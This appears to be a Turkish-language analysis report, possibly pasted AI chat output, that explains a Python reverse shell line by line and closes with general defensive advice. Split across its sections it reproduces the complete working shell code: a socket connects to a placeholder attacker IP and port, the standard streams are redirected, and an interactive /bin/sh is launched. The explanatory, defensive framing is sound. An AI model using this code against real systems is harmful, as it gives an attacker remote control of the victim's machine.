 (Kötü Niyetli Kullanılabilecek)Bir ters kabuk (reverse shell) bağlantısı kurmayı hedeflemektedir. İşte adım adım kodun ne yaptığını açıklayan bir rapor: 

1. Giriş
Kod, hedef bilgisayarda çalıştırıldığında, saldırganın kontrol ettiği bir makineye bağlantı kurarak bir komut kabuğu (shell) açar ve saldırganın bu kabuk üzerinden hedef bilgisayarı kontrol etmesine olanak tanır. Bu tür saldırılar genellikle yetkisiz erişim sağlamak ve sistemde kötü niyetli komutlar çalıştırmak için kullanılır.

2. Kod Analizi
2.1. Modül İçe Aktarma

import socket, subprocess, os
socket: Ağ bağlantıları kurmak için kullanılır.
subprocess: Yeni süreçler oluşturmak ve komutlar çalıştırmak için kullanılır.
os: İşletim sistemi ile ilgili işlevleri yerine getirmek için kullanılır.
2.2. Soket Oluşturma


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
socket.AF_INET: IPv4 adres ailesini kullanır.
socket.SOCK_STREAM: TCP bağlantı türünü kullanır.
2.3. Bağlantı Kurma


s.connect(("SALDIRI_HEDEF_IP", SALDIRI_HEDEF_PORT))
s.connect(): Saldırganın IP adresi (SALDIRI_HEDEF_IP) ve port numarası (SALDIRI_HEDEF_PORT) belirtilerek saldırganın kontrolündeki makineye bağlanılır.
2.4. Dosya Tanıtıcılarının Yönlendirilmesi
python
Kodu kopyala
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
os.dup2(): Hedef makinedeki standart giriş (stdin), standart çıkış (stdout) ve hata çıkışı (stderr) dosya tanıtıcıları, soket dosya tanıtıcısına (s.fileno()) yönlendirilir. Bu, saldırganın komutları doğrudan terminal üzerinden yürütmesine olanak tanır.
2.5. Kabuk Başlatma
python
Kodu kopyala
p = subprocess.call(["/bin/sh", "-i"])
subprocess.call(): Yeni bir süreç başlatarak /bin/sh kabuğunu interaktif modda (-i) çalıştırır.
3. Özet
Amaç: Hedef bilgisayarda çalışan bu betik, saldırganın belirlediği bir IP ve port üzerinden bağlantı kurar ve hedef bilgisayarda bir komut kabuğu açar.
Fonksiyonellik: Saldırgan, bu bağlantı üzerinden hedef bilgisayara komutlar gönderebilir ve bu komutların çıktısını alabilir.
Güvenlik Riski: Bu tür ters kabuk bağlantıları, yetkisiz erişim ve kötü niyetli etkinlikler için kullanıldığından, ciddi bir güvenlik riski oluşturur. Bu nedenle, sistemlerin bu tür saldırılara karşı korunması ve şüpheli etkinliklerin izlenmesi önemlidir.
4. Sonuç
Bu tür saldırılar, sistem güvenliği açısından ciddi tehditler oluşturur ve bunlara karşı korunmak için güvenlik duvarları, izinsiz giriş tespit sistemleri (IDS), ve düzenli güvenlik taramaları gibi önlemler alınmalıdır.

